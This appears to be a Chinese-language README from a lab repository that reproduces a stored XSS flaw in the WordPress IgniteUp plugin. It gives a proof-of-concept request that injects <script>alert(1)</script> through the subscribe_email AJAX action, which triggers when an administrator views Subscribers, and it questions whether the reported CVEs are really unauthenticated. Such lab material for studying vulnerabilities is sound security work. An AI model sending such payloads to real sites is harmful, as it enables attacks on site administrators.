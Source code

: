 ## 说明

原文https://blog.nintechnet.com/multiple-vulnerabilities-in-wordpress-igniteup-coming-soon-and-maintenance-mode-plugin/
总共发现了4个cve，都说是未授权的，但是我看很多都是admin_init的，绕不过wordpress本身的认证，可能是方式不太对...

这个是存储型xss漏洞的利用，压缩包是插件

### payload:

/wp-admin/admin-ajax.php?action=subscribe_email&cs_email=1@11.coc.com&cs_name=<script>alert(1)</script>

![image](https://github.com/guobaoyou/vul_environment/blob/master/wordpress_igniteup_plugin_xss/images/1.jpg)

当管理员查看Subscribers时，触发漏洞。
![image](https://github.com/guobaoyou/vul_environment/blob/master/wordpress_igniteup_plugin_xss/images/2.jpg)

